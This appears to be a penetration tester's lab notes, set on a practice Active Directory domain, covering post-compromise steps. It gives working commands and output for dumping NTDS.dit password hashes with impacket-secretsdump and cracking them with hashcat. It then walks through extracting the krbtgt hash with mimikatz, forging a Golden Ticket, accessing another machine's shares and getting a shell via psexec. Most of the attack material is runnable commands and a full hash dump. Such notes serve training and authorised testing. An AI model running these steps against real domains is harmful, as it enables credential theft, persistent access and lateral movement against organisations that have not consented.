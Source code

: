 ## We own the domain now what?  
In the event we manage to compromise Domain and there is still time in the engagement, we will continue to provide as much value to the client as possible.  

1. Dump NTDS.dit and crack passwords.
2. Enumerate further shares for sensitive information such as PII data and other findings so that this can be reported.
3. Create persistence in the event our main access is lost and also remember to remove rouge Domain Admin accounts.
4. Test for detections espicially for DA account creations. A good environment should detect these account creations.
5. Creating a Golden Ticket.

---

## 🚩 Dumping the NTDS.dit

### What is NTDS.dit?  
An extremely critical and highly sensitive database used to store AD data within Active Directory / Domain Controllers:
* user information
* group information
* security descriptors
* password hashes

Using a **known domain admin account** we could use secretsdump and its switch of **-just-dc-ntlm** to dump out the DCs NTDS file. A successful Domain dump will contain a range of information from: SAM, credentials, domains, krbtgt, hashes, local account users, pc logins, and other accounts that may of been created from ipv6 / relayx + mitm6 relay attack.  

example:

    impacket-secretsdump / secretsdump - impacket-secretsdump MARVEL.local/pparker:'Password1'@192.168.64.139 -just-dc-ntlm

using our malicious domain admin account hawkeye against the DC, we succesfully dumped the local SAM and more importantly the NTDS.dit file. From the dump we also see 'kerberos keys' and also the krbtgt which could be later leveraged in a kerberos ticket attack.

    impacket-secretsdump MARVEL.local/hawkeye:'Password1@'@192.168.64.138

![image](https://github.com/user-attachments/assets/dfe18c4b-7172-4012-8155-1c74bbd42f97)

Using -just-dc-ntlm with secretsdump will only dump out the NTDS.dit, filtering out the other data as the name implies.  

    root@kali:/home/kali# impacket-secretsdump MARVEL.local/hawkeye:'Password1@'@192.168.64.138 -just-dc-ntlm
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2617733570dcba888a76e40359f8a359:::
    MARVEL.local\tstark:1103:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
    MARVEL.local\SQLService:1104:aad3b435b51404eeaad3b435b51404ee:f4ab68f27303bcb4024650d8fc5f973a:::
    MARVEL.local\fcastle:1105:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
    MARVEL.local\pparker:1106:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
    avrrDOsNBw:1109:aad3b435b51404eeaad3b435b51404ee:253a38577fe79301cf439d788dfa3850:::
    hawkeye:1110:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
    HYDRA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:86757f6579150e5ef1901687a33b627b:::
    THEPUNISHER$:1107:aad3b435b51404eeaad3b435b51404ee:2338c61f1a4137c16acab764b8fe5022:::
    SPIDERMAN$:1108:aad3b435b51404eeaad3b435b51404ee:1d86510b8589eccf45424b657db6ab52:::
    [*] Cleaning up... 
    root@kali:/home/kali# 

Now that we have the NTLM hashes dumped out from the NTDS.dit, we should filter out the NT portions of the hashes in excel, place it in a .txt file and have it cracked with -m of 1000 (given they are just ntlm) using hashcat. With all the cracked passwords, we can place them back into excel to see the passwords to accounts and also for final reporting.  

![image](https://github.com/user-attachments/assets/bd6014ac-0ea6-472c-b1fb-27290f32b313)

    hashcat -m 1000 ntds111.txt 
    once finished
    hashcat -m 1000 ntds111.txt --show

![image](https://github.com/user-attachments/assets/8b8b4bfb-821c-449f-9edc-f909ce359101)

We can now apply the cracked passwords back to the excel and match the cracked passwords with the hashes through using =vlookup magic or bash script.   

### Note:  
ignore PC passwords, they are typically not going to be cracked and have low value in this scenario.

---

## 🚩 Golden Ticket Attacks  

### What is Golden Ticket Attacks?  
* when we compromise the krbtgt (kerboros ticket granting ticket) we essentially own the domains.
* we can request access to any resource or system on the domain.
* golden tickets == complete access to every machine.

### Why exploit Golden Tickets even when we own the Domain?
* laterally move into accounts that we may not be able to access using forged tickets.
* authenticate into accoutns without needing a password.
* if our domain account is removed, we can still gain access with a Golden Ticket creation, maintaining persistance.

**Using mimikatz.exe to generate Golden Tickets.** 
1. priv debug
2. lsadump for krbtgt account: to obtain sid, krbtgt ntlm hash
3. with the krbtgt hash we can use it to generate a Golden Ticket
4. use Golden Ticket to 'Pass the Ticket' to now access any machine within the domain
5. Golden Ticket can launch tools at machines or users in the same network without username / passwords - Gticket bypasses this requirement
6. when in any account, we could enumerate files and even spawn new shells

---

### Performing a Golden Ticket Attack with a Pass the Ticket attack  

1. On the DC we have obtained mimikatz.exe by GentleKiwi
3. We now aim to obtain the krbtgt account, Kerboros - ticket granting ticket account
4. This allows us to generate tickets if we have the hash of the krbtgt account
5. With the hash of the krbtgt account we can use it to access service and resource or create a 'Golden Ticket' and use that for access.

**From the DC, run as admin on cmd.exe and the following:**  
    mimikatz.exe
    privilige::debug
    lsadump::lsa /inject /name:krbtgt

![image](https://github.com/user-attachments/assets/7baacf00-be56-46aa-ba61-88670fbc1574)

**Here we have obtained the krbtgt details, and use these to 'Pass the Hash' to create a 'Golden Ticket Session':**  
user: krbtgt  
SID of Domain: S-1-5-21-277273238-679169888-2290246510  
ntlm hash: 2617733570dcba888a76e40359f8a359  
/id: 500 (admin account)  
/ptt:  pass the ticket  

**Generate a Golden Ticket and session with these details:**  

    mimikatz # kerberos::golden /User:FakeUser123 /domain:marvel.local /sid:S-1-5-21-277273238-679169888-2290246510 /krbtgt:2617733570dcba888a76e40359f8a359 /id:500 /ptt

![image](https://github.com/user-attachments/assets/668c803d-d4dc-4e3d-985f-a97a78ac3667)

**From this we have now obtained a Golden Ticket for our 'fakeuser123' in current session**  
pull up cmd with the newly created Golden Ticket session.
    
    misc::cmd
    *in new window*
    dir \\THEPUNISHER\c$

![image](https://github.com/user-attachments/assets/76543f30-69a5-4391-8f87-4b2ea17357d1)

We have gained access into THEPUNISHER machine. For further compromise of this user, we could install psexec.exe orr other a sysinternals tool on our attacker machine for remote code execution. Once downloaded, from the terminal we can use 'psexec.exe \\THEPUNISHER cmd.exe' to gain a reverse shell and functional interaction.  

---

**Conclusion:**
* Compromise a Domain Controller (DC) account.
* Hijack the krbtgt Ticket Granting Ticket (TGT) using lsadump.
* Use the krbtgt details to conduct a Pass-the-Hash (PTH) attack.
* Grant a Golden Ticket session with a fake user.
* With the Golden Ticket, access any service or resource due to having Ticket Granting Authority.
* Use the Golden Ticket session to gain access to THEPUNISHER machine.
* Enumerate shares on THEPUNISHER machine.
* With access to the shares, use PsExec or other remote code execution tools from the attacking terminal against THEPUNISHER.
